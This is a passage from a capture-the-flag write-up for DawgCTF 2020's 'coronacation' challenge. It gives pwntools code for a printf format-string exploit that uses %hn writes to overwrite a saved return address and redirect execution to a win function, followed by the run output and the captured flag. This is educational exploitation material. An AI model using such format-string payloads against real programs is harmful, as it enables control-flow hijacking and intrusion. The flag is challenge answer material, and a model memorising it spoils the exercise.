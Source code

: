 As described in the Analysis section above the two leaked address are the address of the stack below `main+14` and the address of `main+14`.  The address of `main` is just `main+14` - 14.  From that we can compute the address of `win`.


#### Overwrite _return to main_ with `win`, get the flag

```python
payload  = b'3       '
payload += b'%' + str((win & 0xFFFF) - 8).rjust(6,'0').encode() + b'x'
payload += b'%9$hn   '
payload += p64(stack - 8)
```
The payload should look something like:

```
b'3       %020829x%9$hn   \xa8\xe5\xff\xff\xff\x7f\x00\x00'
```

The first 8 bytes start with a `3`, so that neither option `1` or `2` are taken, followed by 7 spaces (it is important to keep stack aligned).

The second 8 bytes will emit `(win & 0xFFFF) - 8` zeros, the zeros are of little interest (zero actually); it's the metadata we're after, i.e. the _number_ of zeros sent (`printf` keeps an internal counter of all characters sent).  We only need the lower 16-bits of `win` to overwrite the lower 16-bits of _return to main_ in the stack, since the rest of the bits are the same.  The `- 8` is necessary since we already sent 8 bytes with `3` + 7 spaces; the total bytes sent needs to equal `win & 0xFFFF`.

The third 8 bytes instructs `printf` to write out the internal character counter as a 16-bit value to the address at parameter 9.  _Why 9?_  If you recall, x86_64/libc parameters 1-5 are in registers, and starting from the top of the stack down are parameters 6, 7, 8, and 9, (and so on).  The payload string starts at parameter 6, therefore the target address (4th set of bytes) is located at parameter 9.

The leaked stack location (see Analysis above) is 8 more than the location of the _return to main_ address, so we have to subtract off 8.

```python
p.sendline(payload)
#p.stream()
_ = p.recvline()
import re
print(re.sub(b'000+',b' ...[zeros removed]... ',_,1))
```

Normally I'd just end with `p.stream()` and collect the flag, but to make this doc a bit more readable I replaced with the regex above to remove all the zeros.


#### Output

```
[*] '/pwd/datajerk/dawgctf2020/coronacation/coronacation'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to ctf.umbccd.io on port 4300: Done
0x5563f0a2f165
0x7ffee7825c60
b'You chose: 3        ...[zeros removed]... DawgCTF{st@y_Th3_f@ck_h0m3}\n'
```

#### Flag

```
DawgCTF{st@y_Th3_f@ck_h0m3}
```
